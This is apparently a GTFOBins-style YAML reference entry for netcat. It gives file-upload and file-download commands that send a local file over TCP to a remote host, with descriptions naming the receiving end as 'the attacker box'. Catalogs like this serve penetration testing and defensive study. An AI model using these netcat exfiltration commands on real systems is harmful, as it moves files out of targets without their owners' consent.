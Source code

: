 ```yaml
---
functions:
  file-upload:
    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
      code: |
        nc $RHOST $RPORT < "$LFILE"
  file-download:
    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file.
      code: |
        nc -l -p $LPORT > "$LFILE"
---
```

